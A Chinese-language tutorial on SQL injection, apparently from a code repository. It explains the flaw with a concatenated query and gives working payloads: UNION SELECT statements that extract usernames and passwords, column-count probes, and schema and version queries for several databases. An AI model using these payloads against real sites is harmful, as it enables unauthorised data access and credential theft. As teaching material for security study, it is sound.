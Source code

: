# SQL注入 - 堆叠注入

## SQL注入原理

SQL注入漏洞源自于程序员在应用开发时，通过 **拼接** 的方式来生成SQL语句。考虑以下代码：

> $sql = "SELECT title, description FROM books WHERE isbn = '" + $isbn + "' AND public = 1";

在“正常”情况下，程序员期待生成的SQL语句是类似这样的：

> SELECT title, description  
> FROM books  
> WHERE isbn = '`123`'  
> AND public = 1

但如果变量`$isbn`受控，我们可以令：

> $isbn = "`' UNION SELECT username, password FROM users -- `";

拼接后，SQL语句变为：

> SELECT title, description  
> FROM books  
> WHERE isbn = '<font color="red">' UNION SELECT username, password FROM users</font><font color="grey"> -- ' AND public = 1</font>

这样我们就把表`users`中的`username`和`password`也查出来了。

## 堆叠注入

### 确定SQL语句中`列`的数量

#### 方法一：通过 ORDER BY 子句试探

可以通过一系列“`ORDER BY 1`” 、“`ORDER BY 2`” ... 子句进行试探，如果进行到 “`ORDER BY n`” 时报错，则SQL语句有`n-1`列。

#### 方法二：通过 UNION SELECT UNLL 子句试探

可以通过一系列“`UNION SELECT NULL`”、“`UNION SELECT UNLL, NULL`” ... 子句进行试探，如果 SELECT `n` 个 NULL 时不再报错则SQL语句有`n`列。之所以用`NULL`，是因为每一列的元素数据类型要兼容，`NULL`与任何类型都兼容。

### 确定SQL语句中哪些列兼容字符串

通过一系列“`UNION SELECT 'a', NULL`”、“`UNION SELECT NULL, 'a'`”之类进行试探即可。

### 查询数据库版本

| 数据库           | SQL语法                      |
|------------------|------------------------------|
| MySQL，SqlServer | SELECT @@version             |
| Oracle           | SELECT banner FROM v$version |
| PostgreSQL       | SELECT version()             |

### 查询表信息

| 数据库                       | SQL语法                                                        |
|------------------------------|----------------------------------------------------------------|
| MySQL，SqlServer，PostgreSQL | SELECT table_schema, table_name FROM information_schema.tables |
| Oracle                       | SELECT owner, table_name FROM all_tables                       |

### 查询列信息

| 数据库                       | SQL语法                                                                                       |
|------------------------------|-----------------------------------------------------------------------------------------------|
| MySQL，SqlServer，PostgreSQL | SELECT column_name, data_type FROM information_schema.columns WHERE table_name = 'TABLE-NAME' |
| Oracle                       | SELECT column_name, data_type FROM all_tab_columns WHERE table_name = 'TABLE-NAME'            |

### 把多个表列的信息合并为一列显示

`' UNION SELECT CONCAT(username, '~', password) FROM users-- `

| 数据库               | 拼接语法               |
|---------------------|-----------------------|
| MySQL               | CONCAT('foo', 'bar')  |
| Oracle， PostgreSQL | 'foo' \|\| 'bar'      |
| Microsoft           | 'foo' + 'bar'         |
